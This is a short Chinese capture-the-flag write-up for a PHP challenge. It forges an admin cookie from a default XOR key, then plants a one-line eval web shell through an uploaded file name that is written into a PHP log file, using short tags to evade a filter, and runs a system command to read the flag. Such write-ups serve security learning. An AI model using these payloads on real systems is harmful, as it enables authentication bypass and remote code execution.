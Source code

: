 # C15

用户名是Cookie存在客户端的，所以可以Cookie伪造，在`function.php`内有Cookie加密解密的相关逻辑

`user.php`只有用户登陆的逻辑代码，但没有注册逻辑代码，因此只能通过Cookie伪造来登陆admin用户

`image.php`原本应该是用来SQL注入来达到获取`secret`从而伪造Cookie，但是本题目直接给了源代码，猜测`config.php`内的`secret`并没有修改，所以可以先使用源码的`secret`伪造尝试

```php
function encode($str,$key)
{
    $tmp="";
    for ($i=0;$i<strlen($str);$i++)
    {
        $tmp .= chr(ord($str[$i])^ord($key[$i%strlen($key)]));
    }
    return base64_encode($tmp);
}
echo encode('admin','!*(fp60zoy');
// QE5FDx4=
```

```
Cookie: username=QE5FDx4=
```

这样我们直接带上这个Cookie去请求`user.php`，可以看到已经是admin用户了。

这里有个上传接口，但是并没有上传文件的逻辑。但是存在写日志的逻辑

```php
$file_name=$_FILES["file"]["name"];

if (preg_match("/php/i",$file_name))
{
    echo "You cant upload php file.<script>setTimeout('location.href=\"user.php\"',3000);</script>";
    die;
}

file_put_contents("logs/upload.log.php","User {$username} uploaded file {$file_name}.\n",FILE_APPEND);
```

可以看到日志文件是php文件，这样我们只要在文件名中包含php一句话就可以了

由于有正则表达式限制，我们可以使用php短标签来绕过

payload

```
<?=eval($_GET[x]);?>
```

然后直接访问`/logs/upload.log.php?x=system('cat /flag');`，拿到flag
